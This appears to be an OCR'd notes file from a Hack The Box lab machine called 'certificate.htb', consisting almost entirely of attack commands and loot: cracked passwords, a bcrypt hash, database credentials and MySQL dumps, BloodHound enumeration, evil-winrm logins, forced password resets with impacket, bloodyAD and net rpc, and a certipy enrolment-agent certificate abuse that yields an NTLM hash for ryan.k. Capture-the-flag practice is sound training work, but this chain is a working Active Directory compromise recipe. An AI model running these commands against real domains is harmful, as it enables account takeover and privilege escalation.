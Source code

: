 aakeder.kh
Lion.SK
Ryan.K
Sara.B  $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6  Blink182  Sara1200

certificate_webapp_user         cert!f!c@teDBPWD

.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "select * from certificate_webapp_db ; "
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db;select * from users;"


bloodhound-python -u sara.b -d certificate.htb -c all -v -ns 10.10.11.71

evil-winrm certificate.thb -u "sara.b" -p "Blink182"


impacket-changepasswd certificate.htb/lion.sk@10.10.11.71 -newpass 'Password@1234' -altuser certificate.htb/sara.b -altpass 'Blink182' -reset 

bloodyAD --host '10.10.11.71' -d 'Certificate.htb' -u Sara.B -p 'Blink182' set password lion.sk "Abc123456%" 

net rpc password 'lion.sk' 'newP@ssword2022' -U 'certificate.htb'/'sara.b'%'Blink182' -S '100.10.11.71' 



evil-winrm -i 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'



certipy-ad find  -u lion.sk -p '!QAZ2wsx' -dc-ip 10.10.11.71 -vulnerable 

certipy-ad req -u 'lion.sk@certificate.htb' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -ca Certificate-LTD-CA -target 'certificate.htb' -template 'Delegated-CRA'

certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'

certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

timedatectl set-ntp off

rdate -n 10.10.11.71 

certipy-ad auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'

ryan.k : aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6 
